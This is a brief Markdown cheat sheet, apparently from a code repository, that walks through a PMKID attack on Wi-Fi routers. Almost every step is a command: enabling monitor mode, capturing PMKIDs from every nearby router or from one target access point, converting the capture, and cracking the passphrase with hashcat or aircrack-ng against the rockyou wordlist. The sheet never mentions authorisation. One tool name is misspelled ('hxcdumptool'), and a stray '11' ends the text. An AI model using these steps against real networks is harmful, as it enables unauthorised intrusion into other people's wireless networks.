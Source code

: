 # PMKID Attack

Routers vulnerable: Enabled roaming feature.

Tools: hcxtools, aircrack-ng suite

## Steps:

#### 1) Install hcxtools

    sudo apt install hcxtools

#### 2) Set our Wi-Fi adapter or NIC in monitor mode

    sudo airmon-ng start wlan0

#### 3) Capture PMKIDs from all the routers around us

    sudo hxcdumptool -o demo -i wlan0mon --enable_status 5

#### 4) Convert pcapng file to hashcat format

    sudo hcxpcaptool -z pmkidhash demo

#### 5) Crack hash

    hashcat -m 16800 --force pmkidhash /usr/share/wordlists/rockyou.txt --show

## Capture only a single PMKID

#### 1) Capture the PMKID from a single AP

    sudo hcxdumptool -o output -i wlan0mon --enable_status=1 --filterlist_ap=target --filtermode=2

#### 2) Convert pcapng file to hashcat format

    sudo hcxpcaptool -z pmkidhash output

#### 3) Crack hash

    hashcat -m 16800 --force pmkidhash /usr/share/wordlists/rockyou.txt --show

### Alternate method: Convert pcapng to pcap, then crack using Aircrack-ng

#### 1) Convert pcapng to pcap

    sudo tcpdump -r demo -w demo.pcap

#### 2) Crack file

    sudo aircrack-ng demo.pcap -w /usr/share/wordlists/rockyou.txt
    11

